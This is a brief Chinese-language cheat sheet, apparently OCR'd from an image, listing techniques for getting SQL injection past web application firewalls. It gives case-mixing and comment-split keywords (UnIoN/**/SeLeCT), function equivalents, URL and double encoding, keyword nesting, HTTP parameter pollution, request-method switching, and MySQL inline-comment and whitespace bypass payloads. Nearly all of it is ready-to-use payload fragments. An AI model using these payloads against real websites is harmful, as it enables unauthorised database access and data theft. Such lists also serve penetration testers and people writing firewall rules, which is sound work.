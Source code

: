 ##### 大小写/关键字替换 

- id=1 UnIoN/**/SeLeCT 1,user() 
- Hex() bin() 等价于ascii() 
- Sleep() 等价于 benchmark() 
- Mid()substring() 等价于 substr() 
- @@user 等价于 User() 
- @@Version 等价于 version() 

##### 各种编码 

- 大小写，URL，hex，%0A等 

##### 注释使用 

- // -- --+ # /**/ + :%00 /!**/等 

##### 再次循环 

- union==uunionnion 

##### 等价替换 

- user()=@@user() and=& or=| ascii=hex等 

##### 参数污染 

- ?id=1&id=2&id=3 

##### 编码解码及加密解密 

- s->%73->%25%37%33 
- hex,unlcode,base64等 

##### 更改请求提交方式 

- GET POST COOKIE等 
- POST->multipart/form-data 
- 中间件HPP参数污染 

##### 数据库特性 

- Mysql技巧 

  - mysql注释符有三种：
  
    #、/*...*/、-- ... (注意--后面有一个空格) 

  - 空格符

    [0x09,0x0a-0x0d,0x20,0xa0]

  - 特殊符号

    %a 换行符：可结合注释符使用%23%0a，%2d%2d%0a。 

  - 内联注释
  
    /*!UnIon12345SelEcT*/ 1,user() //数字范围 1000-50540
